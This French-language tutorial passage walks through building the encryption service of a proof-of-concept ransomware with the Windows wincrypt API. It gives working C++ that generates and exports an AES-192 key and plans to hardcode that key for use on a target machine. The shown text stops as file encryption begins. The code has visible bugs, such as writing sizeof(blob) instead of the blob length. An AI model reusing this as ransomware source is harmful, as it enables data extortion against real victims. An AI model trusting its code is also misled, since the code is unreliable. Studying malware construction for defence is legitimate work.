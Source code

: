 # Le service de chiffrement

Le coeur de notre ransomware PoC reste son service de chiffrement. Pour cet aspect, Microsoft met à notre disposition la librairie wincrypt, inclue dans le set API Windows (https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta). Celle-ci sera supposément bientôt dépréciée, et remplacée par le standard CNG (https://docs.microsoft.com/en-us/windows/win32/seccng/cng-portal et https://docs.microsoft.com/fr-fr/windows/win32/seccng/encrypting-data-with-cng), mais en attendant, nous nous en contenterons. 

>Afin de complaire à nos grands amis de l'OQLF, de l'ANSSI, et de l'Académie Française, l'auteur utilisera le terme "chiffrer" au lieu d'encrypter.

## La gestion cryptographique avec l'API Windows ; théorie

Pour tout ce qui touche à la génération d'une clé et à la logique de chiffrement, le trio de fonctions le plus utiles dans l'API Windows restent :

### CryptAcquireContextA

Qui nous permet l'acquisition d'une handle vers le container de clé d'un fournisseur de services cryptographiques (CSP selon la doc Microsoft). Cette handle sera ré-utilisée par les autres fonctions de wincrypt.

```cpp
BOOL CryptAcquireContextA(
  [out] HCRYPTPROV *phProv,
  [in]  LPCSTR     szContainer,
  [in]  LPCSTR     szProvider,
  [in]  DWORD      dwProvType,
  [in]  DWORD      dwFlags
);
```

### CryptGenKey

Qui permet la génération de notre clé.

```cpp
BOOL CryptGenKey(
  [in]  HCRYPTPROV hProv,
  [in]  ALG_ID     Algid,
  [in]  DWORD      dwFlags,
  [out] HCRYPTKEY  *phKey
);
```

### CryptExportKey

Export de la clé. Utilisé deux fois, d'abord pour calculer la longueur de notre futur "blob", puis pour remplir celui-ci avec une structure de type PLAINTEXTKEYBLOB, avec entre les deux un petit malloc à notre blob en utilisant la longueur du blob calculée la première fois.

La fonction :
```cpp
BOOL CryptExportKey(
  [in]      HCRYPTKEY hKey,
  [in]      HCRYPTKEY hExpKey,
  [in]      DWORD     dwBlobType,
  [in]      DWORD     dwFlags,
  [out]     BYTE      *pbData,
  [in, out] DWORD     *pdwDataLen
);
```

La structure en question. Pour une clé AES-192, notre blob fera donc par exemple un total de 36 bytes

```cpp
typedef struct _PLAINTEXTKEYBLOB {
  BLOBHEADER hdr;
  DWORD      dwKeySize;
  BYTE       rgbKeyData[];
} PLAINTEXTKEYBLOB, *PPLAINTEXTKEYBLOB;
```

## La gestion cryptographique avec l'API Windows : pratique.

Voilà donc à quoi ressemble notre code final pour la génération de clé


```cpp
  int genkey(){

  HCRYPTPROV prov = NULL;
  HCRYPTKEY clé = NULL;
  DWORD bloblen = 0;
  BYTE* blob;
  bool ok;

  if (CryptAcquireContextW(&prov, 0, 0, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {

    std::cout << "Context acquired" << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Failure to acquire context" << d << std::endl;
    return -1;
  }

  if (CryptGenKey(prov, CALG_AES_192, 0x00C00000 | CRYPT_EXPORTABLE, &clé)) {
    std::cout << "Key Generated : " << clé << std::endl;

  }
  else {
    DWORD d = GetLastError();
    std::cout << "Failure to generate key, error code : " << d << std::endl;
    CryptDestroyKey(clé);
    CryptReleaseContext(prov, 0);
    return -1;

  }


  if (CryptExportKey(clé, 0, PLAINTEXTKEYBLOB, 0, NULL, &bloblen)) {

    std::cout << "Size of the blob determined : " << bloblen << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Error calculating the length, error code : " << d << std::endl;
    return -1;
  }

  if (blob = (BYTE*)malloc(bloblen)) {

    std::cout << "Memory has been allocated to the blob :" << sizeof(blob) << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Out of memory, error code : " << d << std::endl;
    return -1;
  }
  
  ok = CryptExportKey(clé, 0, PLAINTEXTKEYBLOB, 0, blob, &bloblen);

  if (ok == FALSE) {

    DWORD d = GetLastError();
    std::cout << "Error exporting key, error code : " << d << std::endl;
    free(blob);
    return -1;
  }
  else {
    std::cout << "Content written to the blob" << std::endl;
    std::cout << "Here's the raw blob value :" << blob << std::endl;

    std::ofstream bytefile("byte.txt",std::ios::binary);
    bytefile.write((const char*)blob,sizeof(blob));
    bytefile.close();

  }

return 0;
}
  ```

  Une fois celle-ci créée, elle peut être ré-importée (dans notre cas sous la forme d'un array de bytes hardcodé) lorsque le ransomware s'exécutera sur la machine de test cible via la fonction CryptImportKey (qui requiert un CSP valide, et donc l'exécution locale de CryptAcquireContextW au préalable) :

```cpp
BOOL CryptImportKey(
  [in]  HCRYPTPROV hProv,
  [in]  const BYTE *pbData,
  [in]  DWORD      dwDataLen,
  [in]  HCRYPTKEY  hPubKey,
  [in]  DWORD      dwFlags,
  [out] HCRYPTKEY  *phKey
);
```

## Le chiffrement des fichiers avec une clé : théorie

L'idée reste simple. 

//Tout d'abord, déclarer deux handles
